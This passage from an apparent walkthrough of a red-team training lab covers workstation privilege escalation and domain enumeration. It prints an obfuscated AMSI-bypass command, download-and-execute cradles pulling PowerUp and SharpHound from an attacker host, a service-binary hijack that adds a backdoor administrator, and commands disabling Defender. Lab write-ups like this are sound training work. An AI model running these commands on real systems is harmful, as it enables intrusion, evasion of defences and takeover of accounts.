<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-26-figure-01.png"></a></figure>

<pre><code>echo XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX &gt; C:\Windows\Temp\n0debranch.txt</code></pre>
</section>

<!-- PDF page 27 -->
<section id="pdf-page-27" class="pdf-source-section" data-pdf-page="27" aria-label="Source page 27">
<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-27-figure-01.png"></a></figure>

<h3 id="flag-1">Flag 1</h3>

<figure style="width: 75.22%"><a href="/assets/img/posts/red-team-capstone/page-27-figure-02.png"></a></figure>
</section>

<!-- PDF page 28 -->
<section id="pdf-page-28" class="pdf-source-section" data-pdf-page="28" aria-label="Source page 28">
<h3 id="flag-2">Flag 2</h3>

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-28-figure-01.png"></a></figure>

<h3 id="flag-3">Flag 3</h3>

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-28-figure-02.png"></a></figure>

The mailbox delivered the flags and a message from TheReserve's Head of Security.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-28-figure-03.png"></a></figure>
</section>

<!-- PDF page 29 -->
<section id="pdf-page-29" class="pdf-source-section" data-pdf-page="29" aria-label="Source page 29">

The first three flags were recorded.

<figure style="width: 73.30%"></figure>

Both recovered accounts could access WRK1 and WRK2.

The portal updated the network diagram after those submissions.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-29-figure-02.png"></a></figure>

The diagram now displayed:

<ul><li>Server 1 (.31)</li><li>Server 2 (.32)</li><li>CORPDC .102</li></ul>

The VPN routes from Kali covered WRK1 (.21) and WRK2 (.22). I used sessions on those workstations to move further into the network.

The initial checks looked similar for both users. PowerUp later listed local administrative group membership for the account I was using.

</section>

<!-- PDF page 30 -->
<section id="pdf-page-30" class="pdf-source-section" data-pdf-page="30" aria-label="Source page 30">
<h2 id="local-administration">Local Administration and Service Permissions</h2>
<figure style="width: 44.10%"><a href="/assets/img/posts/red-team-capstone/page-30-figure-01.png"></a></figure>

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-30-figure-02.png"></a></figure>

I initially received an access-denied error when trying to write under the Administrator profile, so I looked at the account and service permissions on WRK1.

</section>

<!-- PDF page 31 -->
<section id="pdf-page-31" class="pdf-source-section" data-pdf-page="31" aria-label="Source page 31">

I hosted PowerUp on Kali and ran its Windows privilege-escalation checks on WRK1.

Before loading PowerUp, I ran the AMSI command below in the PowerShell session.

The AMSI-related command from my session:

AMSI command used during this attempt

<pre><code>SeT-Item ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  )
( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varIABLE  ( ('1Q'+'2U')
+'zX'  )  -VaL  )."AssEmbly"."GETTYPe"((  "{6}{3}{1}{4}{2}{0}{5}" -
f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),
('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f
't','Sys')+'em')  ) )."getfiElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("
{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f
('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sETVaLUE"(
${n`ULl},${tRuE} )</code></pre>

I served <code>PowerUp.ps1</code> from the THM directory on Kali using Python's HTTP server. The screenshot shows an HTTP 200 response to WRK1. In the command below, <code>REPLACE_WITH_CURRENT_KALI_TUNNEL_IP</code> needs to be replaced with the reachable address of the Kali machine.

<figure style="width: 88.79%"><a href="/assets/img/posts/red-team-capstone/page-31-figure-01.png"></a></figure>

<pre><code>$KaliTunnelAddress = &#x27;REPLACE_WITH_CURRENT_KALI_TUNNEL_IP&#x27;
IEX (New-Object Net.WebClient).DownloadString(&quot;http://${KaliTunnelAddress}:8080/PowerUp.ps1&quot;)</code></pre>
</section>

<!-- PDF page 32 -->
<section id="pdf-page-32" class="pdf-source-section" data-pdf-page="32" aria-label="Source page 32">

I ran <code>Invoke-PrivescAudit</code> to check the local configuration and service permissions.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-32-figure-01.png"></a></figure>

PowerUp listed local administrative group membership, unquoted service paths, and writable service files. I chose the Backup service because its executable was writable.

I used <code>Install-ServiceBinary</code> to back up and replace the Backup service executable.

The replacement ran a command to create a local account and add it to Administrators. I tried restarting the service and received a service-start error, but the account had been created. I checked its group membership and signed in with it.

<pre><code>Install-ServiceBinary -Name &#x27;Backup&#x27; -Command &quot;net user n0debranch Passwd123! /add &amp;&amp; net localgroup Administrators n0debranch /add&quot;
Restart-Service -Name &#x27;Backup&#x27; -Force</code></pre>
</section>

<!-- PDF page 33 -->
<section id="pdf-page-33" class="pdf-source-section" data-pdf-page="33" aria-label="Source page 33">
<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-33-figure-01.png"></a></figure>

I checked that the new local account, <code>n0debranch</code>, belonged to the Administrators group.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-33-figure-02.png"></a></figure>

I ended the existing RDP session and signed in with that local account.

<figure style="width: 74.63%"><a href="/assets/img/posts/red-team-capstone/page-33-figure-03.png"></a></figure>

I then wrote the requested evidence file under the Administrator profile.

</section>

<!-- PDF page 34 -->
<section id="pdf-page-34" class="pdf-source-section" data-pdf-page="34" aria-label="Source page 34">
<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-34-figure-01.png"></a></figure>

<h3 id="flag-4">Flag 4:</h3>

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-34-figure-02.png"></a></figure>

The updated network diagram:

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-34-figure-03.png"></a></figure>
</section>

<!-- PDF page 35 -->
<section id="pdf-page-35" class="pdf-source-section" data-pdf-page="35" aria-label="Source page 35">
<h2 id="domain-enumeration">Domain Discovery and BloodHound</h2>

My next focus was the corporate domain controller.

<figure style="width: 100.00%"></figure>

With local administrator access on WRK1, I looked up the corporate domain controller.

<code>nltest /dsgetdc:corp.thereserve.loc</code>

I ran this command from WRK1 to locate the domain controller for <code>corp.thereserve.loc</code>.

</section>

<!-- PDF page 36 -->
<section id="pdf-page-36" class="pdf-source-section" data-pdf-page="36" aria-label="Source page 36">
<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-36-figure-01.png"></a></figure>

The result identified CORPDC at 10.200.40.102.

I used SharpHound to collect Active Directory data and BloodHound to explore group membership, permissions, and relationships.

From an elevated PowerShell session, I ran the following commands to turn off Defender's real-time monitoring and downloaded-file scanning.

<pre><code>Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true</code></pre>

<figure style="width: 85.40%"><a href="/assets/img/posts/red-team-capstone/page-36-figure-02.png"></a></figure>

I placed the legacy SharpHound PowerShell collector in the Kali HTTP directory.

Kali, from the directory containing the collector:

<pre><code>python3 -m http.server 8080</code></pre>
</section>

<!-- PDF page 37 -->
<section id="pdf-page-37" class="pdf-source-section" data-pdf-page="37" aria-label="Source page 37">

On WRK1, I loaded the legacy PowerShell collector:

<pre><code>$KaliTunnelAddress = &#x27;REPLACE_WITH_CURRENT_KALI_TUNNEL_IP&#x27;
IEX (New-Object Net.WebClient).DownloadString(&quot;http://${KaliTunnelAddress}:8080/SharpHound.ps1&quot;)</code></pre>

<pre><code>Invoke-BloodHound -CollectionMethod All -Domain corp.thereserve.loc -LDAPUserName laura.wood -LDAPPassword &#x27;Password1@&#x27;</code></pre>

I supplied Laura's domain credentials for LDAP collection while running from the local account.

SharpHound returned an LDAP authentication error. I tried again and also received forest-resolution errors, but collected some data that I later imported into BloodHound.

<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-37-figure-01.png"></a></figure>

I copied the resulting data back to Kali through Remmina's shared-folder feature. This was much easier than passing files through HTTP requests.

<figure style="width: 36.43%"></figure>

The shared folder simplified subsequent file transfers.

</section>

<!-- PDF page 38 -->
<section id="pdf-page-38" class="pdf-source-section" data-pdf-page="38" aria-label="Source page 38">
<figure style="width: 100.00%"><a href="/assets/img/posts/red-team-capstone/page-38-figure-01.png"></a></figure>

I imported the collected data into BloodHound.

I used <code>start-bloodhound</code> with a Neo4j-based setup. The <a href="https://bloodhound.specterops.io/collect-data/ce-collection/sharphound">current SharpHound documentation</a> covers Community Edition.

I extracted and imported the JSON files from the collected archive.

When I looked for a path from Laura's account to Domain Admin, the graph already showed privileged membership.

</section>

<!-- PDF page 39 -->
<section id="pdf-page-39" class="pdf-source-section" data-pdf-page="39" aria-label="Source page 39">
<figure style="width: 100.00%"></figure>

BloodHound showed Laura in Domain Admins. The account output also listed that membership.

